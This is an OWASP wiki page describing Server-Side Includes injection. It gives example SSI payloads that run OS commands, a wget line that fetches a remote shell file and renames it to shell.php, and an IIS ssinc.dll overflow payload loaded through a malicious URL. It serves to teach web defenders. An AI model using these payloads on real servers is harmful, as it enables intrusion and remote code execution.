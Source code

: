 ```yaml
---

layout: col-sidebar
title: Server-Side Includes (SSI) Injection
author: 
contributors: 
permalink: /attacks/Server-Side_Includes_(SSI)_Injection
tags: attack, Server-Side Includes (SSI) Injection
auto-migrated: 1

---
```


{% include writers.html %}

## Description

SSIs are directives present on Web applications used to feed an HTML
page with dynamic contents. They are similar to CGIs, except that SSIs
are used to execute some actions before the current page is loaded or
while the page is being visualized. In order to do so, the web server
analyzes SSI before supplying the page to the user.

The Server-Side Includes attack allows the exploitation of a web
application by injecting scripts in HTML pages or executing arbitrary
codes remotely. It can be exploited through manipulation of SSI in use
in the application or force its use through user input fields.

It is possible to check if the application is properly validating input
fields data by inserting characters that are used in SSI directives,
like:

`< ! # = / . " - > and [a-zA-Z0-9] `

Another way to discover if the application is vulnerable is to verify
the presence of pages with extension .stm, .shtm and .shtml. However,
the lack of these type of pages does not mean that the application is
protected against SSI attacks.

In any case, the attack will be successful only if the web server
permits SSI execution without proper validation. This can lead to access
and manipulation of file system and process under the permission of the
web server process owner.

The attacker can access sensitive information, such as password files,
and execute shell commands. The SSI directives are injected in input
fields and they are sent to the web server. The web server parses and
executes the directives before supplying the page. Then, the attack
result will be viewable the next time that the page is loaded for the
user's browser.

## Risk Factors

TBD

## Examples

### Example 1

The commands used to inject SSI vary according to the server operational
system in use. The following commands represent the syntax that should
be used to execute OS commands.

**Linux:**

List files of directory:

`<!--#exec cmd="ls" -->`

Access directories:

`<!--#exec cmd="cd /root/dir/">`

Execution script:

`<!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->`

**Windows:**

List files of directory:

`<!--#exec cmd="dir" -->`

Access directories:

`<!--#exec cmd="cd C:\admin\dir">`

### Example 2

Other SSI examples that can be used to access and set server
information:

To change the error message output:

`<!--#config errmsg="File not found, informs users and password"-->`

To show current document filename:

`<!--#echo var="DOCUMENT_NAME" -->`

To show virtual path and filename:

`<!--#echo var="DOCUMENT_URI" -->`

Using the “config” command and “timefmt” parameter, it is possible to
control the date and time output format:

`<!--#config timefmt="A %B %d %Y %r"-->`

Using the “fsize” command, it is possible to print the size of selected
file:

`<!--#fsize file="ssi.shtml" -->`

### Example 3

An old vulnerability in the IIS versions 4.0 and 5.0 allows an attacker
to obtain system privileges through a buffer overflow failure in a
dynamic link library (ssinc.dll). The “ssinc.dll” is used to interpreter
process Server-Side Includes.
[CVE 2001-0506](https://nvd.nist.gov/vuln/detail/CVE-2001-0506).

By creating a malicious page containing the SSI code bellow and forcing
the application to load this page ([Path
Traversal](Path_Traversal "wikilink") attack), it’s possible to perform
this attack:

ssi_over.shtml

`<!--#include file=”UUUUUUUU...UU”-->`

PS: The number of “U” needs to be longer than 2049.

Forcing application to load the ssi_over.shtml page:

Non-malicious URL:

`www.vulnerablesite.org/index.asp?page=news.asp`

Malicious URL:

`www.vulnerablesite.org/index.asp?page=www.malicioussite.com/ssi_over.shtml`

If the IIS return a blank page it indicates that an overflow has
occurred. In this case, the attacker might manipulate the procedure flow
and executes arbitrary code.

## Related [Attacks](https://owasp.org/www-community/attacks/)

  - [Code Injection](Code_Injection "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [Input Validation Vulnerability](PHP_File_Inclusion "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [Input Validation Vulnerability](https://owasp.org/www-project-proactive-controls/v3/en/c5-validate-inputs)

## References

  - <http://www.comptechdoc.org/independent/web/cgi/ssimanual/ssiexamples.html>
    - SSI Examples

  - <http://httpd.apache.org/docs/current/howto/ssi.html#basic> - CGI and SSI Syntax and Examples

  - [Injection Flaws](https://owasp.org/www-community/Injection_Flaws)
